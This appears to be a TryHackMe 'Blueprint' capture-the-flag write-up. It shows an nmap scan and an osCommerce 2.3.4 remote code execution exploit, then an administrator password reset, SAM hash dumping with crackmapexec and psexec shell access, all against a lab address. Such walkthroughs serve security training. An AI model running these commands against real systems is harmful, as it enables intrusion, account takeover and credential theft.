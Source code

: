```yaml
---
description: https://tryhackme.com/room/blueprint
---
```


# Blueprint

## Nmap

```
sudo nmap 10.10.153.99 -sV -sS      

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Starting out we check port 8080 and find that a web server is running. The root page presents us with an index page where we see the commerce system oscommerce 2.3.4 is installed.

![](<../../../.gitbook/assets/image (94).png>)

A simple preliminary check with `searchsploit` shows multiple vulnerabilities with this version.

```
searchsploit oscommerce 2.3.4 -w
```

![](<../../../.gitbook/assets/image (71) (1).png>)

Searching for Remote Code Execution exploits on GitHub shows a PoC from the user nobodyatall648.

GitHub: [https://github.com/nobodyatall648/osCommerce-2.3.4-Remote-Command-Execution](https://github.com/nobodyatall648/osCommerce-2.3.4-Remote-Command-Execution)

Which has the following definition for the exploit:

_"Exploiting the install.php finish process by injecting php payload into the db\_database parameter & read the system command output from configure.php"_.

Using the example provided on GitHub we clone the repo and run with the following syntax:

```
python3 exploit.py http://<IP>/oscommerce-2.3.4/catalog/
```

![](<../../../.gitbook/assets/image (90).png>)

After gaining a SYSTEM level shell on the target system we now aim to gain a proper reverse shell. As well as dump the hashes from the target system.

With SYSTEM access we change the local administrator password.

```
net user administrator Password123
```

Then use `crackmapexec` to dump the NTLM hashes from the SAM file.

```bash
crackmapexec smb '10.10.153.99' -u 'Administrator' -p 'Password123' --local-auth --sam
```

![](<../../../.gitbook/assets/image (998).png>)

After dumping hashes from SAM we then use `psexec.py` to gain shell access to the target system.

```
psexec.py ./administrator:'Password123'@'10.10.153.99'
```

![](<../../../.gitbook/assets/image (74) (2).png>)
